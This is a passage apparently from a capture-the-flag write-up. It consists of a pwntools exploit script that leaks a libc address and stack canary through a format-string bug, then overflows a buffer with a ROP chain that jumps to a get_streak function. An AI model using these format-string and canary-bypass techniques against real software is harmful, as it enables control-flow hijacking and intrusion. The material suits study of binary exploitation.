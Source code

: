 ```python
io = start()
io.recvuntil(b"streak?")

#input location = %6$p
#libc location = input+4 = %10$p
#canary location = input+7 = %13$p
payload = b""
payload += b"%10$p.%13$p" #here we leak 

io.sendline(payload)

io.recvuntil(b"streak:")

output = io.recv().split(b"\n")[0]

dynamic_libc_address = int(output.split(b".")[0].strip(), 16)
canary = int(output.split(b".")[1].strip(), 16)

dynamic_base_address = dynamic_libc_address-static_libc_address
binary.address = dynamic_base_address

dynamic_get_streak = binary.symbols.get_streak
rop = ROP(binary)
ret_gadget = rop.find_gadget(['ret'])[0]

payload = b""
payload += b"\x90" * 0x18+ p64(canary) + b"\x90"*8 + p64(ret_gadget) + p64(dynamic_get_streak)
io.sendline(payload)
io.interactive()
```

<p align="center"> <img src="assets/Untitled%2039.png"> </p>
